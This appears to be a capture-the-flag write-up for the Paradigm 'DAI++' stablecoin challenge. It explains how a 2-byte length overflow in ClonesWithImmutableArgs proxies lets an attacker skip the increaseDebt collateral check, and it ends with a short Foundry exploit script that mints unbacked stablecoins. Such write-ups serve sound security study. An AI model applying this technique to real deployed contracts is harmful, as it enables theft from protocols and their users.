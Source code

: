 ```yaml
---
title: 5. DAI++
tags:
- Paradigm
---
```

# Desription
MakerDAO is such a complex codebase, and we all know that larger codebases are more likely to have bugs. I simplified everything, so there shouldn’t be any bugs here

# Code
`Account.sol`:
- deposit():
- withdraw():
- increaseDebt():
- decreaseDebt():
- isHealthy():
- recoverAccount():

`AccountManager.sol`
- onlyValidAccount()
- migrateAccount()
- _openAccount()
- mintStablecoins()
- burnStablecoins()

`Challenge.sol`

`StableCoin.sol`:
- Just ERC20 Token from system_configuration

`SystemConfiguration.sol`

# Goal
Mint StableCoin more than 1_000_000_000_000 ether;

# Solution
If we want to mint we need to call `AccountManager.sol::mintStablecoins()`:
```solidity
function mintStablecoins(Account account, uint256 amount, string calldata memo)
        external
        onlyValidAccount(account)
    {
        account.increaseDebt(msg.sender, amount, memo);

        Stablecoin(SYSTEM_CONFIGURATION.getStablecoin()).mint(msg.sender, amount);
    }
```
But we do not have enough collateral to mint, so we need find a way to bypass `increaseDebt`.
`AccountManager` uses `ClonesWithImmutableArgs` to create new accounts. When interacting with the Account, the immutable arguments will be read from calldata, saving gas costs. But there's a comment in the `ClonesWithImmutableArgs`:
```
/// @dev data cannot exceed 65535 bytes, since 2 bytes are used to store the data length
```
Since the immutable arguments are stored in the code region of the created proxy contract, the code size will be calculated based on the data length during the deployment. However, the code size that should be returned is also stored in 2 bytes. Therefore, if runSize exceeds 65535 bytes, a broken contract may be deployed. 
Then we can bypass the `increaseDebt`

So when we create an account with the recoverAddresses parameter as an array of length 2044, the increaseDebt() function implementation will be skipped, and we can call mintStablecoins() without any restriction.

# Exp
```solidity
  uint256 AttackerPK = 0x12345;
        address attacker = vm.addr(AttackerPK);

        address challengeAddress = address(challenge);
        challenge = Challenge(challengeAddress);
        SystemConfiguration systemConfiguration = SystemConfiguration(challenge.SYSTEM_CONFIGURATION());
        AccountManager accountManager = AccountManager(systemConfiguration.getAccountManager());

        address[] memory recoverAddresses = new address[](2044);
        Acct account = accountManager.openAccount(attacker, recoverAddresses);
        accountManager.mintStablecoins(account, 1_000_000_000_000 ether + 1, "hack");
        console.log("isSolved:", challenge.isSolved());
```
